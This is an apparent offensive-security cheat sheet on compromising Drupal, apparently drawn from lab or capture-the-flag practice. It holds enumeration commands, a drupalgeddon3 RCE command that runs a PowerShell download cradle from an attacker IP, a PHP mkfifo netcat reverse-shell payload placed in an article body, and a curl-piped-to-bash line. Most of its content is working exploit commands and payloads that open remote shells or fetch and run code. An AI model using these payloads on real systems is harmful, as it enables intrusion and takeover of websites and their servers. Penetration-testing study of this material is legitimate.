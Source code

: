 # Drupal

## Drupal

### Drupal Enumeration

We can use droopescan:

```bash
droopescan scan drupal -u http://10.10.10.102
```

Alternatively, we can use [drupalgeddon2.rb](https://github.com/dreadlocked/Drupalgeddon2) to enumerate and perform a vulnerability scan:

```
ruby drupalgeddon2.rb http://10.10.10.102/
```

There is also drupalgeddon3.

Here is an example of an RCE vulnerability in Drupal running in Windows:

```sh
python drupalgeddon3.py http://10.10.10.9/ "SESSd873f26fc11f2b7e6e4aa0f6fce59913=GCGJfJI7t9GIIV7M7NLK8ARzeURzu83jxeqI2_qcDGs" 1 "powershell iex(new-object net.webclient).downloadstring('http://10.10.14.14/shell.ps1')"
```

### Drupal RCE

First: Modules -> Enable PHP filter&#x20;

Second: Add content -> Article

Then listen in a port of your choosing :

```
nc -lvnp 443
```

Afterward in the Drupal Article **Body** add this payload:

```bash
<?php system("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.8 443 >/tmp/f"); ?>
```

Next, in the **Text Format**, we select **PHP code.**

Finally, we click on the **Preview** button.

## Drupal Exploits

### Druppalgeddon

```
ruby druppalgeddon2.rb 10.10.10.233
> curl -s 10.10.14.20 | bash
```
